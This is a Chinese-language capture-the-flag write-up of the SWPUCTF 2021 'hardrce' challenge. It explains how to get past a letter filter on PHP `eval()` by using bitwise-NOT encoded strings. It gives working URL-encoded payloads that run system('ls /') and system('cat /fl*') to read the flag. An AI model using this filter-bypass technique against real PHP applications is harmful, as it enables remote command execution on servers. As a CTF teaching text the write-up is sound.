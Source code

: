 ```yaml
---
date: 2024-05-25
categroies: 
    - SWPUCTF
tag:
    - RCE
    - PHP
    - 无字母RCE
---
```


# 每日一题 —— [SWPUCTF 2021 新生赛]hardrce

> 题目地址：<https://www.nssctf.cn/problem/439>

<!-- more -->

观察到本题有函数 `eval()` 并通过 `wllm` 传参，并过滤了所有的字母以及一部分符号，可知这道题是无字母 RCE。通过查询 RCE bypass, 可以知道对于这种情况，有自增、异或、取反三种不同的绕过方式，所用的符号分别为：`+` `^` `~`。前两个被过滤了，但是取反符号没有被过滤。

我们直接利用 PHP 来生成一个取反的 payload：

```php
<?php
echo urlencode(~'phpinfo');
```

得到：`%8F%97%8F%96%91%99%90`; 

而对于 `eval()` 函数而言，似乎不允许自反时把函数括号给处理，因此 payload格式为： `(~%8F%97%8F%96%91%99%90)();`。 

现在开始构造 payload : `system('ls /')`
构造为：`(~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D0);`

找到根目录下 `/flllllaaaaaaggggggg` 文件，打开它 `system('cat /fl*')`
构造为：`(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%D0%99%93%D5);`

赋值给 `wllm`，得到 flag.